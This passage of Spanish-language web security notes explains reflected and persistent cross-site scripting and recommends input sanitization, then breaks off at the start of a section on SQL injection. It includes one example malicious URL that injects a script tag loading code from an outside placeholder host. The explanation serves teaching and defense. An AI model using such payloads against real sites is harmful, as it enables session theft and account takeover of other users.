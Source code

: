 			Un atacante puede crear un enlace de búsqueda que contenga un script malicioso como parámetro
			
			(por ejemplo, https://developer.mozilla.org?q=beer<script%20src="http://example.com/tricky.js"> </script>)
			
			y enviarlo por correo electrónico a otro usuario
			
			Si el usuario objetivo hace clic en este "enlace interesante",
			
			el script se ejecutará cuando se muestren los resultados de la búsqueda.
			
			esto le brinda al atacante toda la información que necesita
			
			para ingresar al sitio como usuario objetivo,
			
			potencialmente realizar compras como usuario o compartir su información de contacto.
			
		
		Persistent XSS:	
			
			Ocurre cuando el script malicioso se almacena en el sitio web
			
			luego se vuelve a mostrar sin modificaciones para que otros usuarios lo ejecuten sin darse cuenta.
			
			Por ejemplo, un foro de discusión que acepta comentarios que contienen HTML sin modificar 
			
			podría almacenar un script malicioso de un atacante.
			
			Cuando se muestran los comentarios, el script se ejecuta
			
			y puede enviar al atacante la información necesaria para acceder a la cuenta del usuario
			
			Este tipo de ataque es extremadamente popular y poderoso
			
			es posible que el atacante ni siquiera tenga ningún contacto directo con las víctimas.
			

		Si bien los datos de las solicitudes POST o GET
		
		son la fuente más común de vulnerabilidades XSS
		
		cualquier dato del navegador es potencialmente vulnerable
		
		como los datos de las cookies generados por el navegador o los archivos del usuario que se cargan y muestran.

		
		La mejor defensa contra las vulnerabilidades XSS es eliminar o deshabilitar
		
		cualquier marcado que potencialmente pueda contener instrucciones para ejecutar el código.
		
		Para HTML, esto incluye elementos como <script>, <object>, <embed> y <link>.
		
		
		El proceso de modificar los datos del usuario para que no puedan usarse para ejecutar scripts
		
		o afectar la ejecución del código del servidor se conoce como desinfección de entrada (input sanitization).
		
		Muchos frameworks web desinfectan automáticamente la entrada del usuario desde formularios HTML de forma predeterminada.
		
	
	SQL Injection:
		
		Permiten a usuarios malintencionados ejecutar código SQL arbitrario en una base de datos.
		